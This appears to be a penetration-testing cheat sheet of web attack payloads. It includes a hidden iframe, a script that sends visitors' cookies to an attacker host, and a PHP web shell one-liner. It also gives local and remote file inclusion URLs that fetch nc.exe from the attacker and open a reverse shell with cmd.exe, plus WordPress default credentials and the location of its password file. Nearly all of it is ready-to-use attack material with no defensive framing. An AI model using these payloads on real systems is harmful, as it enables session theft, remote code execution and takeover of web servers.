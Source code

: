 Iframe Injection
```html
<iframe SRC="http://$me/report" height = "0" width ="0"></iframe>
```

Grab a cookie....
```java
<script>
new Image().src="http://$me:81/bogus.php?output="+document.cookie;
</script>
```

### Backdoor One Liners

Standard quick and dirty php shell
```php
<?php echo shell_exec($_GET['cmd']);?>
```

LANG=../../../../../../../xampp/apache/logs/access.log%00

### LFI and RFI

LFI Move nc.exe to target:

`$tgt/addguestbook.php?name=badDude&comment=pwnU&cmd=tftp%20-i%20$me%20get%20nc.exe&LANG=../apache/logs/access.log%00`

LFI Have nc.exe to call home:

`http://$tgt/addguestbook.php?name=badDude&comment=pwnU&cmd=nc%20-nv%20$me%20443%20-e%20cmd.exe&LANG=../apache/logs/access.log%00`

RFI to Move nc.exe to target:

`http://$tgt/addguestbook.php?name=badDude&comment=pwnU&LANG=http://$me/evil.txt%00`

RFI to have nc.exe call home:

`http://$tgt/addguestbook.php?name=badDude&comment=pwnU&LANG=http://$me/evil.txt%00`

LFI vs RFI Command Input:
1. LFI will execute the CMD found in the command line; enabled by the php 'cmd' variable injected into the logs
2. RFI will execute the CMD found in the "evil.txt" found in the evil.txt hosted on the attack machine

### JSON / JQUERY Rest API on port 3000...  

Find what its powered by.... Probably Express... see if the Response Headers are there as a tab

`curl -I http://$tgt:3000/`

### WORDPRESS

Default Creds Admin:Admin

location of passwords: /var/www/wordpress/wp-config.php
